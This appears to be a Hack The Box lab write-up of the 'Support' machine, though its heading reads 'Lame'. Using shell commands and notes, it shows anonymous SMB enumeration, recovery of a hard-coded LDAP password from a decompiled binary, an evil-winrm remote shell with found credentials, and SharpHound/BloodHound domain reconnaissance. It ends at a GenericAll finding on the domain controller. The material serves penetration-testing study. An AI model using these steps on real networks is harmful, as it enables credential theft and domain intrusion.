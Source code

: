 **Lame** 
──(root㉿kali)-[/home/kali]
└─# smbclient -L 10.10.11.227 -N
do_connect: Connection to 10.10.11.227 failed (Error NT_STATUS_HOST_UNREACHABLE)
                                                                                                                                 
┌──(root㉿kali)-[/home/kali]
└─# smbclient -L 10.10.11.174 -N

	Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	C$              Disk      Default share
	IPC$            IPC       Remote IPC
	NETLOGON        Disk      Logon server share 
	support-tools   Disk      support staff tools
	SYSVOL          Disk      Logon server share 
Reconnecting with SMB1 for workgroup listing.
do_connect: Connection to 10.10.11.174 failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
Unable to connect with SMB1 -- no workgroup available

  
┌──(root㉿kali)-[/home/kali]
└─# smbclient //10.10.11.174/support-tools
Password for [WORKGROUP\kali]:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Wed Jul 20 13:01:06 2022
  ..                                  D        0  Sat May 28 07:18:25 2022
  7-ZipPortable_21.07.paf.exe         A  2880728  Sat May 28 07:19:19 2022
  npp.8.4.1.portable.x64.zip          A  5439245  Sat May 28 07:19:55 2022
  putty.exe                           A  1273576  Sat May 28 07:20:06 2022
  SysinternalsSuite.zip               A 48102161  Sat May 28 07:19:31 2022
  UserInfo.exe.zip                    A   277499  Wed Jul 20 13:01:07 2022
  windirstat1_1_2_setup.exe           A    79171  Sat May 28 07:20:17 2022
  WiresharkPortable64_3.6.5.paf.exe      A 44398000  Sat May 28 07:19:43 2022

		4026367 blocks of size 4096. 967496 blocks available
                                                           
#download suspicios file   
smb: \> get UserInfo.exe.zip  

#create sperate folder for extaract
──(root㉿kali)-[/home/kali]
└─# unzip UserInfo.exe.zip 
Archive:  UserInfo.exe.zip
  inflating: UserInfo.exe            
  inflating: CommandLineParser.dll   
  inflating: Microsoft.Bcl.AsyncInterfaces.dll  
  inflating: Microsoft.Extensions.DependencyInjection.Abstractions.dll  
  inflating: Microsoft.Extensions.DependencyInjection.dll  
  inflating: Microsoft.Extensions.Logging.Abstractions.dll  
  inflating: System.Buffers.dll      
  inflating: System.Memory.dll       
  inflating: System.Numerics.Vectors.dll  
  inflating: System.Runtime.CompilerServices.Unsafe.dll  
  inflating: System.Threading.Tasks.Extensions.dll  
  inflating: UserInfo.exe.config 

#move this UserInfo.exe to windows machine

#In windows machine

#download dnspy from >> https://github.com/dnSpy/dnSpy/releases
#open UserInfo.exe in dnspy
#anylze for any ldap passwords
#we got encryted password along with encryption techniq
#based on encryted techniq create script python script to decrypt password



┌──(blackdevil㉿kali)-[~/htb-writeups]
└─$ ldapsearch -x -H ldap://10.10.11.174 \
-D 'support\ldap' \
-w 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' \
-b 'dc=support,dc=htb' \
"(cn=support)"

#port 5985 is open so we can possibly get intrective shell we will tool :evil-winrm
#Evil-WinRM is a post-exploitation tool used by attackers or penetration testers to get an interactive PowerShell shell on a remote Windows machine using WinRM (Windows Remote Management).
evil-winrm -i 10.10.11.174 -u support -p 'Ironside47pleasure40Watchful'


#Download Sharphound.exe and save it in attack machine home
#upload Sharphound on taget 
upload /home/kali/SharpHound.exe #run this on target machine shell 
.\SharpHound.exe -C all #run this one target to get the details about what previlagge user support have in system
                        #it will create zip file 20250617085423_BloodHound.zip
#download  20250617085423_BloodHound.zip in kali machine 
#run following command in target machine
download 20250617085423_BloodHound.zip

#in kali open bloodhound 
#if not installed install bloodhound and complete the set up (refer kali.org)

#upload 20250617085423_BloodHound.zip
#then anylize the data


### 🎯 Goal
Identify if `support@support.htb` has privileges to escalate to Domain Admin.


### 🧠 Step 3: Start BloodHound Community Edition
Run:
bloodhound   
GUI opens at: http://localhost (port 80)  
Login using Admin credentials #set the password if not set

### 📁 Step 4: Upload bloodhound ZIP
In BloodHound UI:
-   "Upload Data"
- Select the 20250617085423_BloodHound.zip
- Wait for "Upload Complete"

### 🔍 Step 5: Run Built-in Query
Go to "Mangments"  
#choose dc.support.htb , open explorer
annalize the persmisson , 
we found that  support user is the member of shared support accont also shared support group as Genric all permmisson on DC.SUPPORT.HTB



